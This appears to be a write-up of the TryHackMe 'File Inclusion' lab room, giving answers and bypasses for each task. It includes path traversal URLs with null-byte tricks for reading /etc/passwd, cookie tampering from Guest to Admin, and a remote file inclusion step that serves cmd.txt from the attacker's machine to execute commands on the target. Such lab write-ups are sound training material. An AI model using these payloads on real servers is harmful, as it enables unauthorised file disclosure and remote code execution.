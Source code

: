 # File Inclusion

**Room Link:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)



**Give Lab #1 a try to read /etc/passwd. What would the request URI be?**

<figure><img src="../../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

**In Lab #2, what is the directory specified in the include function?**

<figure><img src="../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Give Lab #3 a try to read /etc/passwd. What is the request look like?**

Input field didn't work but we were able to bypass by entering our command in the web browser instead.

**URL:** hxxp://10.10.230.14/lab3.php?file=..//..//../../../etc/passwd%00&#x20;

<figure><img src="../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Which function is causing the directory traversal in Lab #4?**

file\_get\_contents

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and check what is the directory that has to be in the input field?**

THM-profile

<figure><img src="../../.gitbook/assets/image (49) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and read /etc/os-release. What is the VERSION\_ID value**

Only worked in browser

hxxp://10.10.230.14/lab6.php?file=THM-profile//..//..//..//..//etc//os-release%00

<figure><img src="../../.gitbook/assets/image (14) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag1 at /etc/flag1**





<figure><img src="../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag2 at /etc/flag2**

<figure><img src="../../.gitbook/assets/image (28) (3).png" alt=""><figcaption></figcaption></figure>

Change the value from Guest to Admin and we can bypass the error message above.

<figure><img src="../../.gitbook/assets/image (50) (1) (2).png" alt=""><figcaption></figcaption></figure>

Change the value to the flag and we can see it on the page.

<figure><img src="../../.gitbook/assets/image (31) (2) (1).png" alt=""><figcaption></figcaption></figure>

What it would look like in burp.

<figure><img src="../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

**Capture Flag3 at /etc/flag3**

Page is getting rid of our slashes

<figure><img src="../../.gitbook/assets/image (11) (7).png" alt=""><figcaption></figcaption></figure>

Changing to post and added extra slashed and null character at end.

<figure><img src="../../.gitbook/assets/image (30) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>



**Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?**

**Kali**

Created the following file to run the hostname command.

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1).png>)

**Kali**

Host the file

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
hxxp://10.10.230.14/playground.php?file=http://10.10.11.193:81/cmd.txt
```

<figure><img src="../../.gitbook/assets/image (10) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>
